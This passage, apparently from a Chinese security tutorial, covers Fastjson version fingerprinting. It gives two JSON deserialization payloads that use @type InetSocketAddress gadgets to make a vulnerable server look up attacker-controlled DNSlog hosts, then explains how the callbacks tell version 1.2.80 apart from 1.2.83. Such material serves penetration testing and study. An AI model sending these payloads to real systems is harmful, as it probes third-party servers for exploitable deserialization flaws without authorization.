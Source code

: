 `payload32`：

```plain
[{"@type": "java.lang.AutoCloseable","@type": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val": "mwhajokbdd.dgrh3.cn"}}]
```

[![](assets/1706254407-4017640e7c2c811fc0c42af6ac0c2afa.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203204-bf384d5a-bb7d-1.jpeg)[![](assets/1706254407-9c6f8d6eca434f965a6082b2047d1a77.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203205-bfcda83c-bb7d-1.jpeg)

### 2.4.4 v1.2.80 与 v1.2.83

需要准备两个`dnslog`地址，我这里`yakit`上开一个`dnslog.cn`开一个。  
`payload33`：

```plain
[{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","x": {"@type": "java.net.InetSocketAddress"{"address":,"val": "xfjdbd.dnslog.cn"}}},{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","message": {"@type": "java.net.InetSocketAddress"{"address":,"val": "uawcowbohf.dgrh3.cn"}}}]
```

如果第一个收到响应而第二个没有收到，说明版本为`1.2.80`：  
[![](assets/1706254407-c46fa667ca76440b4541830a4ef1ffa4.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697708407766-7b4f1a89-5189-4f84-875a-eb04a13a43ef.png)  